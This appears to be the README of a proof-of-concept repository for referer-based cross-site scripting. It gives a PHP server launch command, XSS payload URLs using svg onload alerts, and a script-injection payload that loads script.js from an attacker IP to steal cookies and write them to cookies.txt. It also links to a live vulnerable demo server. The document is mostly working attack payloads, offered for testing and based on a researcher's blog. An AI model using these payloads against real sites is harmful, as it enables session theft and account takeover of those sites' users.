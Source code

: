 ## Referer-based XSS PoC

### Starting the server

Start the server from the repo directory with:
```
php -S 0.0.0.0:80
```

### Example Payloads

for testing:

```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=TARGET_URL
```

*Note: Replace OUR_IP and TARGET_URL as appropriate.*

or to steal cookies:

```
http://OUR_IP<script src=http://OUR_IP/script.js></script>?target=TARGET_URL
```

Code based on what's discussed at Geekboy's blog here:
https://www.geekboy.ninja/blog/exploiting-unusual-referer-based-xss/

Geekboy also set up a vulnerable server for testing as discussed in the blog entry linked above. This link will work as a test of our index.php file:

```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php
```

He set up a PoC here which is the same as index.php. You can click this link directly as is:
[http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php](http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php)


If cookies are stolen via script.js and return.php, they will be written to cookies.txt.

